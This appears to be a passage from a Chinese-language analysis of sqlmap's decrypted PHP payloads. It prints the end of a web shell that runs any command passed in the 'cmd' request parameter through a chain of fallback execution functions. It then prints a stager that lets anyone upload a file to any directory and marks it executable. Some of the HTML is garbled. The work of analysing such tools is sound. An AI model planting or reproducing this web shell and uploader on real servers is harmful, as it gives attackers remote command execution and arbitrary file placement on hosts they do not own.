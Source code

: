 ```
	$w=ob_get_clean();
}elseif(f("proc_open")){
	$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);
	$w=NULL;
	while(!feof($t[1])){
		$w.=fread($t[1],512);
	}
	@proc_close($y);
}elseif(f("shell_exec")){
	$w=shell_exec($c);
}elseif(f("passthru")){
	ob_start();
	passthru($c);
	$w=ob_get_clean();
}elseif(f("popen")){
	$x=popen($c,r);
	$w=NULL;
	if(is_resource($x)){
		while(!feof($x)){$w.=fread($x,512);}
	}
	@pclose($x);
}elseif(f("exec")){
	$w=array();
	exec($c,$w);
	$w=join(chr(10),$w).chr(10);
}else{
	$w=0;
}
echo"
```
$w
```
";
?>

```

这段php代码实现了远程代码命令执行的功能，通过url请求中的cmd参数接受命令，然后通过system，proc\_open，shell\_exec等函数执行此命令，最后输出命令执行结果。


解密后的stager.php\_如下：



```
php</span
if (isset($_REQUEST["upload"])){
	$dir=$_REQUEST["uploadDir"];
	if (phpversion()<'4.1.0'){
		$file=$HTTP_POST_FILES["file"]["name"];
		@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();
	}else{
		$file=$_FILES["file"]["name"];
		@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();
	}
	@chmod($dir."/".$file,0755);
	echo "File uploaded";
}else {
	echo "$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data>sqlmap file uploaderto directory:  ";
}
?>

```
